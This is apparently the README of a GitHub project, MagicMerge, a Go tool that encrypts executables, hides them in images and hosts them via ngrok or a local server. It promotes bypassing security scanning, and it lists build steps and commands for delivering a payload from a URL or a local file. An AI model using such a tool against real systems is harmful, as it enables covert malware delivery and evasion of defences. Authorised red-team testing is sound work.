                              
<h1 align="center" style="font-weight: bold;">MagicMerge💻</h1>

- [Features](href="#️-features")
- [About The Project](#about-the-project)
  - [Built With](#built-with)
- [Getting Started](#getting-started)
  - [Prerequisites](#prerequisites)
  - [Installation](#installation)
- [Roadmap](#roadmap)
- [Contributing](#contributing)
- [License](#license)
- [Contact](#contact)
- [Acknowledgments](#acknowledgments)
- [Notice](#notice)


<p align="center">MagicMerge is a sophisticated utility designed specifically for cybersecurity professionals and red team operators. It offers a powerful yet covert method for embedding and encrypting executables within images enabling secure payload delivery and execution in environments where discretion and evasion are paramount.</p>



![Product Screenshot](https://raw.githubusercontent.com/mrfr05t/MagicMerge/main/screenshot.png)



<h2>🗳️ Features:</h2>

**Stealthy Embedding**
- Description: MagicMerge allows for the embedding of executables directly within image files, creating an unobtrusive method of delivering payloads that bypasses common security measures.
- Benefit: Increases operational success by evading detection from security systems that scan for suspicious binary formats.

**Robust XOR Encryption**
- Description: MagicMerge encrypts executables embedded within images using a dynamically generated 16-byte XOR key, ensuring robust protection against unauthorized access and analysis.
- Benefit: Maintains the integrity and confidentiality of the payload, protecting sensitive data from potential breaches.

**Flexible Deployment Options**
- Description: The tool supports both local and ngrok-enabled public hosting, allowing payloads to be accessed over internal networks or the internet, depending on operational needs.
- Benefit: Offers versatility in deployment, making it suitable for a range of scenarios from controlled internal tests to wide-reaching external deployments.

**Command-Line Interface**
- Description: Operates entirely via a command-line interface, facilitating rapid deployment, scripting, and integration with existing cybersecurity tool chains.
- Benefit: Enhances usability and efficiency, allowing users to execute operations quickly and automate processes as needed.

**Cross-Platform Compatibility**
- Description: Built in Go, MagicMerge is inherently cross-platform, running seamlessly on Windows, macOS, and Linux.
- Benefit: Ensures consistent performance and functionality across different operating systems, which is crucial for teams working in diverse IT environments.

**Easy Configuration and Customization**
- Description: Simple configuration options via command-line flags enable quick setup and adjustments to fit specific operational requirements.
- Benefit: Allows for easy customization and fine-tuning, improving operational effectiveness and adaptability.

**Dynamic XOR Key Generation**
- Description: Generates a new XOR key for each session, enhancing the security of each encrypted payload.
- Benefit: Prevents the compromise of one payload from affecting others, safeguarding multiple deployments simultaneously.

**Random Image Fetching**
- Description: Automatically fetches a new, random image for each payload from a designated source to ensure each payload is uniquely camouflaged.
- Benefit: Increases security by preventing pattern recognition in payload deliveries, crucial for operations requiring high stealth.

**Flexible Payload Sourcing**
- Description: Allows users to source executables from URLs or local storage, accommodating diverse input needs and operational environments.
- Benefit: Adapts to varying scenarios easily, from centrally managed payloads that can be updated remotely to securely handled local files for restricted environments.


<h2>🛠️ Installation Steps:</h2>

<p>1. Download and Install Go (Windows)</p>

```
https://go.dev/doc/install
```

<p>2. Install support libraries</p>

```
go get github.com/logrusorgru/aurora/v3
```

<p>3. Set ngrok in Enviorment Variable path</p>

```
%PATH% 
```

<p>4. Compilation Command:</p>

```
go build -o magicmerge.exe .
```

<h2>ℹ️ Usage Examples:</h2>

<p>1. Run with Ngrok and Payload from url.</p>

```
magicmerge.exe -payload="YourPayloadURL" -url=true -ngrok=true
```
<p>1. Run with local go server and Payload from local storage.</p>

```
magicmerge.exe -payload="/payload.exe" -url=false -ngrok=false
```
